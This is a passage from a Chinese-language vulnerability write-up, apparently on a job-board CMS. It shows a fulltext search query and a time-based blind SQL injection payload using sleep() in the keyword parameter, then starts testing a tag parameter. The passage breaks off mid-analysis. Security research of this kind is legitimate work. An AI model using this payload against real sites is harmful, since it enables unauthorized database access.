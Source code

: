 ```sql
SELECT a.id,company_id,refreshtime,stick,MATCH (`company_nature`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) AS score1,MATCH (`jobname`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) AS score2,MATCH (`companyname`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) AS score3 FROM `qs_job_search_key` `a` WHERE  (  MATCH (`jobname`,`companyname`,`company_nature`) AGAINST ('sec' IN NATURAL LANGUAGE MODE) ) ORDER BY `score1` DESC,`score2` DESC,`score3` DESC,`refreshtime` DESC LIMIT 0,10
```

可以发现也是 MATCH AGAINST 结构，$keyword 的触发点同上一个 sql 漏洞。

根据语句，构造出简单 Payload 并进行跟踪。由于有四个 $keyword 输入点，这里的 sleep(2) 将会睡眠 8 秒。

```sql
'+(select+sleep(2))+'

SELECT a.id,company_id,refreshtime,stick,MATCH (`company_nature`) AGAINST ('+' +(select +sleep(2)) +'' IN BOOLEAN MODE) ......
```

![pFsejGn.png](assets/1710993004-b9b6c9837daf1340f3b3113a071b64a5.png)

#### 其他参数

$tag 参数，正常查询语句如下

```sql
SELECT `a`.`id`,`company_id`,`stick`,`refreshtime` FROM `qs_job_search_rtime` `a` WHERE  (   FIND_IN_SET('sectag',`tag`) ) ORDER BY `stick` DESC,`refreshtime` DESC LIMIT 0,10
```

经过测试，发现输入的内容会被逗号 `,` 隔开  